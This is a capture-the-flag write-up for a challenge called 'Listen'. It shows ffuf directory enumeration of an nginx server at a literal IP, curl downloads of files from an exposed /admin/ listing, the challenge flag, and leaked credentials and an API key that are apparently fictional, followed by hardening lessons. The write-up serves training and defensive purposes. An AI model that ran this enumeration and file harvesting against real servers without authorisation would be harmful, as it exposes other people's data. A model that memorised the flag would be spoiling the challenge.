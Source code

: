 #  Writeup - Listen

## Challenge Overview
We discovered a web service running on **Nginx** (port `12776`).  
The challenge description suggested that misconfiguration might expose hidden directories and sensitive information.

## Reconnaissance
1. **Directory Enumeration**
   Using `ffuf` with the common wordlist:
   ```bash
   ffuf -u http://8.216.34.114:12776/FUZZ -w /usr/share/wordlists/dirb/common.txt
  Results:
  
  bash
  /admin   [301]
  /docs    [301]
  /public  [301]
  /index.html [200]
  The /admin/ directory was interesting because it often contains restricted files.

## Exploitation – Accessing /admin/
Navigating to /admin/ returned an autoindex page:
  admin-only.txt
  secrets.conf

## Downloading both files:

```bash
curl -O http://8.216.34.114:12776/admin/admin-only.txt
curl -O http://8.216.34.114:12776/admin/secrets.conf
Reading admin-only.txt:
cybercon{nginx_star_residents_are_listening_to_us}
```


## Secrets
  The secrets.conf file leaked sensitive information:
  ```bash
  admin_user=galactic_commander
  admin_pass=nginx_star_protocol_42
  db_connection=quantum://admin:cosmic_key@nginx-star.galaxy/universal_db
  api_key=sk_live_nginx_star_42ctf_galaxy_protocol
  This confirmed that the server was misconfigured with directory listing enabled.
  ```

## Lessons Learned
  Directory listing should always be disabled in production (autoindex off;).
  Sensitive credentials should never be stored in web-accessible paths.
  A single misconfiguration can leak both the flag and internal secrets.

## Final Flag
  cybercon{nginx_star_residents_are_listening_to_us}
